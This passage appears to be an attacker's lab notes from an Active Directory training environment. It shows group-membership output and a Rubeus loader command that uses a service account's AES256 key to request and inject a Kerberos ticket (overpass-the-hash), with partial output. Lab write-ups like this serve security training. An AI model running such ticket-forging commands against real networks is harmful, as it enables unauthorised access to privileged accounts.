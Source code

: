 `whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators👥                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

`klist`:
```
Current LogonId is 0:0x848dc4

Cached Tickets: (0)
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : B2PPNETU
[*] Domain          : XYERPPAZ
[*] Password        : NQFMD9B6
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4128
[+] LUID            : 0x143ec18

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
```